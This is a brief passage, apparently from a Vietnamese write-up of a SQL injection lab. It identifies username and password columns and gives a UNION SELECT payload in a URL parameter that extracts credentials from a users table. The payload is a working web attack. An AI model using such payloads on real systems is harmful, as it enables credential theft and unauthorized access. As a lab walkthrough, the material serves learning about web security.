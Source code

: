![](images/36.png)

Ta thấy 2 tên cột là `PASSWORD_BGKVTK` và `USERNAME_QEUXYI`

Truy vấn đến giá trị của 2 cột

`?category=Gifts'+UNION+SELECT+USERNAME_QEUXYI,PASSWORD_BGKVTK+FROM+USERS_OLQZGO--`

![](images/37.png)

Tìm được username và password, tiến hành đăng nhập thử

